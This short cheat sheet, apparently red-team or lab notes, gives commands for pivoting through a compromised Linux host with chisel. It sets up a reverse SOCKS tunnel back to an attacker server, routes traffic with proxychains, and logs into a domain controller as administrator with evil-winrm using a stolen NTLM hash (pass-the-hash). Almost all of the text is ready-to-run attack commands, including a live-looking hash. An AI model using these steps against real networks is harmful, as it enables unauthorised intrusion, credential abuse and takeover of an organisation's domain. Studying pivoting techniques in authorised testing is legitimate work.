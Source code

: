 # Reference: https://ap3x.github.io/posts/pivoting-with-chisel/

## Attacker Server
./chisel_1.9.1_linux_amd64 server -p 8001 --reverse

## Machine 1 (Linux)
chisel client 192.168.1.72 8001 --reverse R:socks:1080
vi /etc/proxychains4.conf # Change socks and port to match socks port.

## Attacker Machine
proxychains ssh

## Attacker Remote Connection to DC01 with stolen NTLM hash
proxychains evil-winrm -i 10.10.83.152 -u administrator -H 59b280ba707d22e3ef0aa587fc29ffe5
